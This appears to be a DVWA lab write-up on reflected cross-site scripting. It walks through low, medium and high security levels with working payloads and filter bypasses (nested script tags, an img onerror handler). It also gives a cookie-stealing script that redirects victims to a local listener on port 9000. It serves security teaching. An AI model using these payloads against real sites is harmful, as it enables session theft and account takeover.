 # Cross Site Scripting (XSS) 📜

Cross site scripting is one of the injection vulnerability where malicous script is injected into vulnerable but trusted websites.

- Attacker can use xss to send malicous codes to user's browser.
- The end user's browser has no way of knowing teh script since it came from trusted source.
- Malicious scripts can access cookies, session tokens or other sensitive informations.

---
## Type of XSS
There are 3 types of cross site scripting:
  1. Reflected XSS
  2. Stored XSS
  3. DOM-Based XSS

Two new types to organize the type of XSS that can occur:

  - Server XSS
  - Client XSS

## Reflected XSS 

This vulnerability is caused when injected script is reflected off the web server in the form of email, search query, error message.

This attack requires social engineering.  User is tricked into clicking on a malicoius link , the injected code travels back to the web application. Which reflects the atatck to user's browser.

### Security Level: LOW

DVWA hosts a input field which takes character input from users. This is where XSS malicious script can be injected.

Like mentioned above, this attack can be used to steal cookies by passing the following carfted input.

```bash
<script> alert(document.cookie) </script>
```

The user provided input acts like a script, since there is no input sanitization.

```
<pre>Hello <script>alert(document.cookie)</script></pre>
```
  
Since we use alert function, the user cookie details are displayed on pop-up.

![image](https://github.com/user-attachments/assets/5eedbb9a-796b-4e96-9639-b9f68e3a3800)



Instead of just using alert function on user's browser, we can run a http server on port `9000` using below command.

![image](https://github.com/user-attachments/assets/e932019c-73bb-4a88-bd8f-080e6e963ac7)

We use the below crafted input as an input to inject into the website, window.location redirects the user to the mentioned ip address and port number and it will set the cookie to the value of user's cookie that we just read from the user browser.

```bash
<script>window.location='http://127.0.0.1:9000/?cookie='+ document.cookie</script>
```

Once the user is redirected, we can see the user's cookie containing sessionID, atatcker can use this information to login as user.

![image](https://github.com/user-attachments/assets/9a44ad8c-c25e-402a-b49c-da7ba977c375)


### Security Level: Medium

In this level, <script> is removed if it is supplied through user input.

```bash
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

The above javascript is used in this level, which indicates that "<script>" is replaced by "".

Now if we use the simple crafted input liek before `<script> alert(document.cookie) </script>`. This will not trigger a pop-up like before.

The inserted code: `<pre>Hello alert(document.cookie)</script></pre>` becomes an incomplete script because of the replace done in javascript.

We can overcome this by simply using `<script<script>>` this gets replaced to `<script>`.

```bash
<script<script>>alert(document.cookie)</script>
```

![image](https://github.com/user-attachments/assets/991ce7f7-395e-4f17-8a60-696b4dae62c8)


### Security Level: High

In this level, the script uses preg_replace() to find matching pattern and replace <script> to ''. 

```
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] )
```

Therefore, the crafted input in medium level `<script<script>>alert(document.cookie)</script>` does not work here.

![image](https://github.com/user-attachments/assets/887de375-0b5b-4f3e-a102-f7fe3e27bcfd)

```
<pre>Hello ></pre>
```

There are other tag so instead of using <script> we can use <img>

```bash
<img src/onerror=alert(document.cookie)>
```

![image](https://github.com/user-attachments/assets/c247f80d-7a35-4851-a65d-c9c6ae6d8ee7)



References taken from:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

